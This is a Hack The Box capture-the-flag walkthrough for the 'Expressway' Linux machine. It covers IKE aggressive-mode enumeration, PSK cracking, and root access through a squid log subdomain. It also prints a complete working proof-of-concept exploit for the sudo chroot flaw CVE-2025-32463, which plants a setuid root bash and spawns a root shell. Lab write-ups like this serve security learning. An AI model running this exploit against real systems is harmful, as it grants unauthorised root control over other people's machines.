> Writeup · part of **[htb-walkthroughs](../README.md)** · [⬇ original PDF](Expressway.pdf)

---

# **<u>Expressway - SEASON 9 MACHINE</u>** 

## **Linux Box** 

Nmap scan output 

### **Port 22 = ssh service is open.** 

The Openssh version 10 which is updated. So, definitely this won’t be our entry point. 



## **<u>UDP Port Scan</u>** 

When TCP fails, we turn to its connectionless counterpart, UDP. UDP scanning is notoriously slow and unreliable with traditional tools like **Nmap** because there is no handshake to confirm if a port is open. 

For this, specialized tools are better. We’ll use **udpx** (or even just **nmap)** 





**Google → isakmp service ```** 

### **The** 

**ISAKMP service isn't a standalone service but refers to the framework defined by the Internet Security Association and Key Management Protocol (ISAKMP). Its primary function is to establish secure communication, specifically Security Associations (SAs), and manage key exchanges, often used in conjunction with protocols like** **<u>IKE (Internet Key Exchange) to secure VPNs. It defines the</u> message formats and processes for two devices to negotiate and agree on cryptographic parameters, creating a secure channel for subsequent data transfer. ```** 

**Port 500** is open and primarily used for the **Internet Key Exchange (IKE) protocol** , which establishes secure tunnels for <u>IPsec VPNs by negotiating encryption keys and</u> parameters 

ike-scan -v -A 10.10.11.87 



This response is incredibly valuable: 

- **Main Mode Handshake:** The server responded in Main Mode, which is more secure as it protects peer identities. 

- **Weak Cryptography:** It supports 3DES (a legacy, weak cipher), SHA1 (no longer considered secure), and Group=2:modp1024 (a weak Diffie-Hellman group susceptible to precomputation attacks). 

- **Auth=PSK:** Authentication is done via a **Pre-Shared Key** . This is the secret we need to find. 

Used the –agressive mode which leaked an identity 

“ **Value=ike@expressway.htb** ” 

## **Capturing the PSK Hash** 

Since we have a valid username → ike,, we can now capture the PSK using ike-scan 





Cracking offline 

I used john to crack the captured psk hash, it wasn’t possible. I resorted to now use **psk-crack** 

### **Psk = freakingrockstarontheroad** 







Perfect, we now have linux shell access with this user. 

## **<u>USER FLAG</u>** 



## **<u>PRIVILEGE ESCALATION TO ROOT</u>** 

Checking privileges that our current user has. 



After running sudo -l, I realised this is a custom denial message. A standard sudo would say ike is not in the sudoers file . This suggests the sudo binary itself has been altered or replaced. 

Our id command reveals our user ike is part of the proxy group. This is an unusual group. 



## **<u>ROOT</u>** 

Initially, when we ran the id command, we realized that user ike belongs to the user group (proxy). 

After looking around, I found **/var/log/squid** owned by a proxy group to have/reveal an interesting domain name. → **offramp.expressway.htb** 





I tried loading it on my browser but the server was not found. After adding this new found subdomain to my local hosts file, it resolved and opened on my browser with Directory listing enabled. 





Went ahead and grabbed the root flag 





## **Vector 2** 

**CVE-2025-32463** → chroot Escalation This is possible as a result of affected sudo version → **1.9.17** 



Exploit content ``` 

**#!/bin/bash # CVE-2025-32463 PoC - Sudo Chroot Privilege Escalation # Based on research by Rich Mirch @ Stratascale Cyber Research Unit** 

**STAGE=$(mktemp -d /tmp/pentest.stage.XXXXXX) cd ${STAGE?} || exit 1** 

**cat > pentester.c<<'CEOF' #include <stdlib.h> #include <unistd.h>** 

**void woot(void) { setreuid(0,0); setregid(0,0); chdir("/"); system("id > /tmp/pwned_proof.txt"); system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"); execl("/bin/bash", "/bin/bash", NULL); } CEOF** 

**mkdir -p pentest/etc libnss_ echo "passwd: /pentester" > pentest/etc/nsswitch.conf cp /etc/group pentest/etc gcc -shared -fPIC -Wl,-init,woot -o libnss_/pentester.so.2 pentester.c echo "[*] Exploiting CVE-2025-32463..." echo "[*] Attempting privilege escalation..." sudo -R pentest pentest** 

**# Cleanup rm -rf ${STAGE?}** 

``` 

**What the code does: ‘This script is a proof-of-concept exploit for CVE-2025-32463. It builds an attacker-controlled NSS/shared library that runs a function ( woot ) when loaded, prepares a minimal chroot layout containing a manipulated nsswitch.conf , then** 

**invokes sudo with -R (chroot) to cause the privileged sudo process to load the attacker library inside the chroot. The woot function escalates privileges (sets UID/GID to 0), writes a proof file, creates a setuid root copy of bash ( /tmp/rootbash ) and spawns a shell. Finally the script attempts cleanup.’** 


